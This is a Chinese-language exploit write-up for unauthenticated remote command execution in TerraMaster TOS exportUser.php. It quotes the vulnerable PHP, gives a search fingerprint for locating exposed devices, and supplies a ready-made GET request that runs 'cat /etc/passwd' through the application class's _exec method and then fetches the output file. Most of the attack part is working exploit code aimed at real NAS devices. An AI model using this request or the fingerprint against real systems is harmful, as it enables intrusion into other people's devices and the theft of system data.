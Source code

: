 # TerraMaster TOS exportUser.php 远程命令执行

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.1.24</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件 `*exportUser.php`*

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```



在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于`include/class/application.class.php`中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```plain
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

```plain
http://xxx.xxx.xxx.xxx/include/test.txt
```

![img](/assets/PeiQi-Wiki/img/tm-9.png)